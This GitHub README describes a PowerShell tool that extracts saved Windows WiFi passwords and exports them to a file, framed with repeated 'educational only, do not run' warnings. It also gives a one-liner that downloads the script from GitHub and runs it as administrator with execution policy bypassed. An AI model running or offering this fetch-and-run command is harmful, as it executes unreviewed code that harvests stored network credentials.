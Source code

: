 <div align="center">

# ⚠️ SQD5-DCWH WiFi Password Extractor

<img src="https://img.shields.io/badge/PowerShell-5.1%2B-blue?style=for-the-badge&logo=powershell" alt="PowerShell">
<img src="https://img.shields.io/badge/Windows-7%20%7C%208%20%7C%2010%20%7C%2011-0078d4?style=for-the-badge&logo=windows" alt="Windows">
<img src="https://img.shields.io/badge/Status-EDUCATIONAL%20ONLY-red?style=for-the-badge" alt="Educational Only">

### _WiFi Password Extraction Tool - Educational Purposes Only_ 🎓

<img src="https://user-images.githubusercontent.com/74038190/212257454-16e3712e-945a-4ca2-b238-408ad0bf87e6.gif" width="100">

</div>

---

> [!DANGER]
>
> # 🚨 DO NOT RUN THIS SCRIPT! 🚨
>
> **THIS IS FOR EDUCATIONAL AND RESEARCH PURPOSES ONLY**
>
> - 🔴 **DO NOT EXECUTE** this script on any system
> - 🔴 **FOR LEARNING ONLY** - Study the code, don't run it
> - 🔴 **POTENTIAL SECURITY RISK** if misused
> - 🔴 **YOU ARE RESPONSIBLE** for any consequences

---

## 🎯 Quick Demo (Educational Only)

> [!WARNING] > **These commands are for educational demonstration only!**
>
> **DO NOT RUN unless you fully understand the risks and have proper authorization!**

### 🏃‍♂️ PowerShell One-Liner

```powershell

iwr "https://raw.githubusercontent.com/09sychic/sqd5-with-dcwh/main/sqd5dcwh.ps1" -OutFile "$env:TEMP\sqd5dcwh.ps1"; Start-Process "powershell.exe" -ArgumentList "-NoProfile", "-ExecutionPolicy", "Bypass", "-File", "`"$env:TEMP\sqd5dcwh.ps1`"" -Verb RunAs -Wait; Remove-Item "$env:TEMP\sqd5dcwh.ps1" -Force

```


> [!CAUTION] > **REMEMBER:** Running these commands will:
>
> - Download and execute the script automatically
> - Request administrator privileges
> - Extract WiFi passwords from your system
> - **Only use on systems you own or have explicit permission to test!**

---

## 📋 What This Tool Does

This PowerShell script demonstrates WiFi password extraction techniques by:

- 🔍 Extracting saved WiFi profiles from Windows
- 📄 Displaying stored network passwords
- 💾 Exporting results to text file
- 🎨 Providing a colorful terminal interface

---

## 🔗 Script Location

**Main Script:** [sqd5dcwh.ps1](https://github.com/09sychic/sqd5-with-dcwh/blob/main/sqd5dcwh.ps1)

---

## 📋 System Requirements

<div align="center">

<img src="https://img.shields.io/badge/OS-Windows_7+-0078d4?style=flat-square&logo=windows" alt="Windows 7+">
<img src="https://img.shields.io/badge/PowerShell-5.1+-012456?style=flat-square&logo=powershell" alt="PowerShell 5.1+">
<img src="https://img.shields.io/badge/Privileges-Administrator-red?style=flat-square&logo=windows-terminal" alt="Admin Required">

</div>

---

## 🎓 Educational Use Cases

- **Security Research:** Understanding Windows credential storage
- **Penetration Testing Education:** Learning about local privilege escalation
- **PowerShell Learning:** Studying advanced scripting techniques
- **Cybersecurity Awareness:** Understanding password security risks

---

## ⚖️ Legal Disclaimer & Warnings

<div align="center">

<img src="https://user-images.githubusercontent.com/74038190/212257460-738ff738-247f-4445-a718-cdd0ca76e2db.gif" width="100">

</div>

> [!CAUTION] > **CRITICAL LEGAL AND SECURITY WARNINGS**
>
> ### 🚨 DO NOT USE FOR:
>
> - ❌ Unauthorized access to networks
> - ❌ Accessing systems without permission
> - ❌ Any illegal or malicious activities
> - ❌ Violating privacy or computer crime laws
>
> ### ✅ ONLY ACCEPTABLE FOR:
>
> - ✅ Educational research and learning
> - ✅ Authorized penetration testing
> - ✅ Personal system security assessment
> - ✅ Academic cybersecurity studies
>
> ### ⚠️ IMPORTANT NOTICES:
>
> - **YOU ARE FULLY RESPONSIBLE** for how you use this code
> - **RESPECT ALL LOCAL AND INTERNATIONAL LAWS**
> - **OBTAIN EXPLICIT PERMISSION** before testing on any system
> - **AUTHOR IS NOT LIABLE** for misuse or damages

---

## 🛡️ Security Considerations

- This tool demonstrates why saved passwords can be security risks
- Always use strong, unique passwords for WiFi networks
- Consider using WPA3 security protocols when available
- Regularly audit saved network profiles on your devices

---

## 🤝 Responsible Disclosure

If you discover security vulnerabilities through educational use of this code, please follow responsible disclosure practices and report findings to the appropriate parties.

---

## 📄 License

<div align="center">

<img src="https://img.shields.io/github/license/09sychic/sqd5-with-dcwh?style=for-the-badge&color=red" alt="License">

**This project is for educational purposes only**

</div>

---

<div align="center">

### ⚠️ Remember: With Great Power Comes Great Responsibility ⚠️

<img src="https://user-images.githubusercontent.com/74038190/212257468-1e9a91f1-b626-4baa-b15d-5c385dfa7cd2.gif" width="100">

**🎓 Learn Responsibly • 🛡️ Use Ethically • ⚖️ Follow Laws**

<img src="https://komarev.com/ghpvc/?username=09sychic&style=for-the-badge&color=red" alt="Profile Views">

</div>
